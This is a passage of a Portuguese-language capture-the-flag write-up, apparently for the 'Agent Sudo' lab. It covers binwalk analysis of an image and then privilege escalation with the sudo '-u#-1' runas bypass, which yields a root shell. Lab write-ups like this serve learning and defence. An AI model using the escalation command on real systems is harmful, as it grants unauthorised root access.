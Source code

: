 No entanto, nada me pareceu relevante nesse momento. Continuei com minhas análises com binwalk:

```
┌──(ellie㉿Asgard)-[~/Desktop]
└─$ binwalk Alien_autospy.jpg 

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             JPEG image data, EXIF standard
12            0xC             TIFF image data, little-endian offset of first image directory: 8
```

Não sabia ao certo o que seriam essas informações, por isso decidi extrair por meio do binwalk, como fiz um pouco acima. Novamente, sem sucesso.

Fui então atrás de fazer uma Reverse search no google, que me retornou alguns resultados interessantes, incluindo o resultado do fox news que dizia que o nome da imagem era 'Roswell alien autopsy', que é o nome correto da imagem.

# Quarta etapa
## Descobrindo o número CVE

Segui as orientações de uma pessoa que realizou esse desafio e rodei o seguinte comando:

```
james@agent-sudo:~$ sudo -l
[sudo] password for james: 
Matching Defaults entries for james on agent-sudo:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on agent-sudo:
    (ALL, !root) /bin/bash
```

Aqui, vi que o usuário não tem a permissão de root para rodar /bin/hash. Descobri isso, após ver !root na última linha.

Após isso, fui analisar o exploit para (all, !root) /bin/bash e encontrei o seguinte [link](https://www.exploit-db.com/exploits/47502)

Tentei então me dar a permissão para rodar no /bin/hash, utilizando o comando que foi mostrado no artigo:

```
sudo -u#-1 /bin/bash
```

O resultado foi o seguinte:

```
root@agent-sudo:~# sudo -l
Matching Defaults entries for root on agent-sudo:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User root may run the following commands on agent-sudo:
    (ALL : ALL) ALL
```
